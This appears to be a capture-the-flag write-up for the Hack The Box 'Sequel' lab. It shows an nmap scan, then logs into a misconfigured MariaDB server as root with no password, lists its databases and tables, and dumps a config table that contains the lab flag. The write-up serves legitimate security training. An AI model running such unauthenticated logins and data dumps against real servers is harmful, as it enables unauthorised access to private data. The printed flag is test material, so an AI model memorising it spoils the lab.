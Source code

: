 # Sequel

- TL;DR: We are able to log-in to a MariaDB server running on the remote host as a root user since the service was misconfigured and does not require a username and password to log-in.

## Reconnaissance 

- Run an nmap scan:
```
nmap -sC -sV 10.129.95.232     

Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 05:03 PDT
Nmap scan report for 10.129.95.232
Host is up (0.085s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 65
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolNew, ConnectWithDatabase, SupportsTransactions, LongColumnFlag, SupportsLoadDataLocal, Speaks41ProtocolOld, IgnoreSigpipes, DontAllowDatabaseTableColumn, ODBCClient, InteractiveClient, IgnoreSpaceBeforeParenthesis, SupportsCompression, Support41Auth, FoundRows, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: 933GJ!`Ds7U'a5$RR#Vj
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 209.98 seconds
```

- `-sC`: Performs a script scan using the default set of scripts. It is equivalent to `--script=default`. Some of the scripts in the catrgory are considered intrusive and should not be run against a target network without permission.
- `-sV`: Enables version detection, which will detect what versions are running on what port.

<br>

## Foothold

- We find the following port(s) open:

    - `3306/tcp` mysql 5.5.5-10.3.27-MariaDB-0+deb10u1
- I order to communicate with the database, we need to install either `mysql` or `mariadb` on our local machine. We run the following command with `*` to install all the related MySQL packages available:
    - `sudo apt update && sudo apt install mysql*`
- Once all the packages are installed, we can run the following commands:
    - `mysql -h 10.129.95.232 -u root`: The `h` flag specifies which host to connect to and the `-u` specifies the user for log-in if not current user.
    - ```
        MariaDB [(none)]> show databases;
        +--------------------+
        | Database           |
        +--------------------+
        | htb                |
        | information_schema |
        | mysql              |
        | performance_schema |
        +--------------------+
        4 rows in set (0.082 sec)
      ```
    - ```
        MariaDB [(none)]> use htb;
        Reading table information for completion of table and column names
        You can turn off this feature to get a quicker startup with -A

        Database changed
        MariaDB [htb]> 
      ```
    - ```
        MariaDB [htb]> show tables;
        +---------------+
        | Tables_in_htb |
        +---------------+
        | config        |
        | users         |
        +---------------+
        2 rows in set (0.076 sec)
      ```
    - ```
        MariaDB [htb]> select * from config;
        +----+-----------------------+----------------------------------+
        | id | name                  | value                            |
        +----+-----------------------+----------------------------------+
        |  1 | timeout               | 60s                              |
        |  2 | security              | default                          |
        |  3 | auto_logon            | false                            |
        |  4 | max_size              | 2M                               |
        |  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
        |  6 | enable_uploads        | false                            |
        |  7 | authentication_method | radius                           |
        +----+-----------------------+----------------------------------+
        7 rows in set (0.076 sec)
      ```
